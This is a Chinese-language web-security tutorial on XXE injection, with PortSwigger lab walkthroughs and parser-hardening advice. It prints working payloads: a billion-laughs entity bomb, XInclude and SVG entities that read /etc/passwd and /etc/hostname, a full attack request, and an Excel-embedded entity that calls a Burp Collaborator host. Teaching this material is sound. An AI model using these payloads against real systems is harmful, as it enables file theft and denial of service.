在许多情况下 XXE 注入漏洞的攻击面是显而易见的，因为应用程序的正常 HTTP 流量包括包含 XML 格式数据的请求。在其他情况下攻击表面不太明显，但是如果您查找正确的位置，您会在不包含任何 XML 的请求中发现 XXE 攻击表面

### 拒绝服务

攻击说明：下面样例代码中的 XXE 漏洞攻击就是著名的"billion laughs"攻击 ([https://en.wikipedia.org/wiki/Billion\_laughs)，该攻击通过创建一项递归的XML定义，在内存中生成十亿个"Ha!"字符串，从而导致DDoS攻击](https://en.wikipedia.org/wiki/Billion_laughs)%EF%BC%8C%E8%AF%A5%E6%94%BB%E5%87%BB%E9%80%9A%E8%BF%87%E5%88%9B%E5%BB%BA%E4%B8%80%E9%A1%B9%E9%80%92%E5%BD%92%E7%9A%84XML%E5%AE%9A%E4%B9%89%EF%BC%8C%E5%9C%A8%E5%86%85%E5%AD%98%E4%B8%AD%E7%94%9F%E6%88%90%E5%8D%81%E4%BA%BF%E4%B8%AA)  
攻击原理：构造恶意的 XML 实体文件耗尽可用内存，因为许多 XML 解析器在解析 XML 文档时倾向于将它的整个结构保留在内存中，解析非常慢造成了拒绝服务器攻击，除了这些攻击者还可以读取服务器上的敏感数据，还能通过端口扫描，获取后端系统的开放端口

```plain
<?xml version="1.0"?>
 <!DOCTYPE lolz [
 <!ENTITY lol "lol">
 <!ENTITY lol2 "&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;">
 <!ENTITY lol3 "&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;">
 <!ENTITY lol4 "&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;">
 <!ENTITY lol5 "&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;">
 <!ENTITY lol6 "&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;">
 <!ENTITY lol7 "&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;">
 <!ENTITY lol8 "&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;">
 <!ENTITY lol9 "&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;">
 ]>
 <lolz>&lol9;</lolz>
```

### XInclude(思路)

部分应用程序接收客户端提交的数据将其嵌入到服务器端的 XML 文档中，然后解析文档，当客户端提交的数据被放入后端 SOAP 请求中，然后由后端 SOAP 服务处理时就会出现这种情况的一个示例

在这种情况下您无法执行经典的 XXE 攻击，因为您无法控制整个 XML 文档，因此无法定义或修改 DOCTYPE 元素，但是您可能可以改用 XInclude，XInclude 是 XML 规范的一部分，它允许从子文档构建 XML 文档，您可以在 XML 文档中的任何数据值中放置 XInclude 攻击，因此在仅控制放置在服务器端 XML 文档中单个数据项的情况下可以执行该攻击，而要执行 XInclude 攻击您需要引用 XIncude 命名空间并提供要包含的文件的路径，例如：

```plain
<foo xmlns:xi="http://www.w3.org/2001/XInclude">
<xi:include parse="text" href="file:///etc/passwd"/></foo>
```

靶场演示：  
检查商品的剩余量并使用 Burpsuite 抓包  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240123132739-1fdc8592-b9b0-1.png)  
构造如下恶意请求载荷

```plain
<foo xmlns:xi="http://www.w3.org/2001/XInclude"><xi:include parse="text" href="file:///etc/passwd"/></foo>
```

```plain
POST /product/stock HTTP/1.1
Host: 0ae300250423820d847064d8006c0005.web-security-academy.net
Connection: close
Content-Length: 126
sec-ch-ua: "Not_A Brand";v="8", "Chromium";v="120", "Google Chrome";v="120"
sec-ch-ua-platform: "Windows"
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Accept: */*
Origin: https://0ae300250423820d847064d8006c0005.web-security-academy.net
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://0ae300250423820d847064d8006c0005.web-security-academy.net/product?productId=1
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: session=u5iqLOnpm7h5y2R8vt2oa1X7KC6i8iiN

productId=<foo xmlns:xi="http://www.w3.org/2001/XInclude"><xi:include parse="text" href="file:///etc/passwd"/></foo>&storeId=1
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240123132815-35169614-b9b0-1.png)

#### 文件上传 (思路)

有些应用程序允许用户上传文件，然后在服务器端进行处理，一些常见的文件格式使用 XML 或包含 XML 子组件，基于 XML 的格式示例有 DOCX 等办公文档格式和 SVG 等图像格式，例如：应用程序可能允许用户上传图像并在上传后在服务器上处理或验证这些图像，即使应用程序希望接收像 PNG 或 JPEG 这样的格式，所使用的图像处理库也可能支持 SVG 图像，由于 SVG 格式使用 XML，攻击者可以提交恶意的 SVG 图像，从而达到 XXE 漏洞的隐藏攻击表面  
靶场演示：  
查看文章并上传文件 xxe.svg，文件内容如下

```plain
<?xml version="1.0" standalone="yes"?><!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]><svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1"><text font-size="16" x="0" y="16">&xxe;</text></svg>
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240123132916-59e826b0-b9b0-1.png)  
查看评论  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240123132927-607c4f9c-b9b0-1.png)

当查看评论时可以在图像中看到/etc/hostname 文件的内容  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240123132945-6ad7e32a-b9b0-1.png)

#### 修改类型 (思路)

POST 请求大多使用由 HTML 表单生成的默认内容类型，例如:application/x-www-form-urlencoded，一些网站希望接收这种格式的请求，但会容忍其他内容类型，包括 XML，例如：如果一个正常的请求包含以下内容：

```plain
POST /action HTTP/1.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 7

foo=bar
```

此时我们可以提交以下请求，得到相同的结果，如果应用程序容忍消息正文中包含 XML 的请求并将正文内容解析为 XML，那么只需将请求重新格式化为使用 XML 格式就可以到达隐藏的 XXE 攻击面，有时候改不改就是和漏洞的一墙之隔

```plain
POST /action HTTP/1.0
Content-Type: text/xml
Content-Length: 52

<?xml version="1.0" encoding="UTF-8"?><foo>bar</foo>
```

## 漏洞防御

XXE 漏洞存在是因为 XML 解析器解析了用户发送的不可信数据，然而要去校验 DTD(document type definition) 中 SYSTEM 标识符定义的数据并不容易，也不大可能，大部分的 XML 解析器默认对于 XXE 攻击是脆弱的，因此最好的解决办法就是配置 XML 处理器去使用本地静态的 DTD，不允许 XML 中含有任何自己声明的 DTD，通过设置相应的属性值为 false，XML 外部实体攻击就能够被阻止，因此可将外部实体、参数实体和内联 DTD 都被设置为 false，从而避免基于 XXE 漏洞的攻击  
A、在进行安全开发规划时如果确定不需要 DOCTYPE 声明时可以完全禁用禁用文档类型，当我们设置为 true 时，disallow-doctype-decl 使 XML 处理器发现 DOCTYPE 声明时抛出异常：

```plain
factory.setFeature("http://apache.org/xml/features/disallow-doctype-decl", true);
```

B、如果想要正常处理其他 DTD 声明，只针对外部实体进行抛出异常，可以用下面两种方法设置为 flase 来处理

```plain
factory.setFeature("http://xml.org/sax/features/external-general-entities", false); 
factory.setFeature("http://xml.org/sax/features/external-parameter-entities", false);
```

## 技巧扩展

在之前看到一个小技巧这里也做个简单的补充，在 Microsoft Office 从 2007 版本中引入了一种名为 Office Open XML(OOXML) 的文件格式，这个格式基于 ZIP 文件格式并且包含了许多 XML 文件来描述工作簿数据、元数据和文档信息，我们可以通过将 Excle 解压并在其中插入 XXE 利用载荷并找寻可以上传 Excel 的地方实现漏洞的检测和利用，例如：  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240123133747-8a75248a-b9b1-1.png)  
随后改造 excel 文件

[](https://xzfile.aliyuncs.com/media/upload/picture/20240123133808-97062a82-b9b1-1.png)

随后将以下内容插入第 2 行和第 3 行，SYSTEM 后面自己添加相对应的 dns 记录均可

```plain
<!DOCTYPE x [ <!ENTITY xxe SYSTEM "http://1rt3nfjp8y8m05ul8ql8wp0k7bd21r.burpcollaborator.net/"> ]>
<x>&xxe;</x>
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240123133829-a33b0f48-b9b1-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240123133838-a8d5fb5c-b9b1-1.png)  
添加好后直接上传 Excel 使其进行在线解析，查看此时 dns 是否又记录即可，目前很多新版本已经对外部解析进行了禁用处理，但是作为一种思路去进行尝试

[](https://xzfile.aliyuncs.com/media/upload/picture/20240123133933-c9b1f8d0-b9b1-1.png)

## 文末小结

本篇文章主要对 XML 的基本结构以及外部实体的基础知识、漏洞成因、检测方式、利用手法、利用思路、利用技巧和修复方式进行了全方位的解读，也算是外部实体的终结篇

## 参考连接

[https://portswigger.net/web-security/xxe](https://portswigger.net/web-security/xxe)  
[https://www.cnblogs.com/miyeah/p/4526088.html](https://www.cnblogs.com/miyeah/p/4526088.html)  
[https://security.tencent.com/index.php/blog/msg/69](https://security.tencent.com/index.php/blog/msg/69)
